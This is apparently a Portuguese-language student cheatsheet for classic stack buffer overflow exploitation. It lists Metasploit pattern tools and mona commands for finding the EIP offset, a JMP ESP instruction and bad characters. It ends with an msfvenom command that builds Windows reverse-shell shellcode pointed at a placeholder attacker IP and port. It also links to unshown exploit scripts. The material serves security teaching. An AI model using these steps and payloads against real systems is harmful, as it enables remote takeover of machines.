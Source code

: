 # Buffer Clássico | Cheatsheet

Esse material foi desenvolvido com a intenção de auxiliar os estudantes que se envolverem com o tema de Buffer Overflow Clássico.

---

Criando um padrão aleátorio de caracteres para a identificação da quantidade de caracteres que são necessários para a manipulação do EIP.

```
msf-pattern_create -l 550
```

Identificando a quantidade necessária para controlar o EIP baseado no padrão gerado acima.

```
msf-pattern_offset -q <EIP>
```

Encontrando uma instrução válida **JMP ESP** na aplicação utilizando o [mona](https://github.com/corelan/mona).

```
!mona jmp -r esp
```

Gerando *bytearray* para os testes dos caracteres que são inválidos para a aplicação.

```
!mona bytearray -cpb "\x00"
```

Comparando o endereço onde estão localizado os caracteres que foram enviados para aplicação com o binário do bytearray que foi gerado no comando acima.

```
!mona compare -f C:\monalogs\aplicacao\bytearray.bin -a <ENDEREÇO>
```

Gerando o shellcode para receber o acesso remoto na máquina.

```
msfvenom -p windows/shell_reverse_tcp -a x86 --platform windows -b "<badchars>" LHOST=<IP DO ATACANTE> LPORT=<PORTA DO ATACANTE> -f c
```
<br />

## Scripts

Scripts           | Link        
------------------|-------------
conecta.py        | Clique aqui 
fuzzing.py        | Clique aqui 
poc.py            | Clique aqui 
findeip.py        | Clique aqui
eip.py            | Clique aqui 
badchars.py       | Clique aqui 
exploit.py        | Clique aqui 

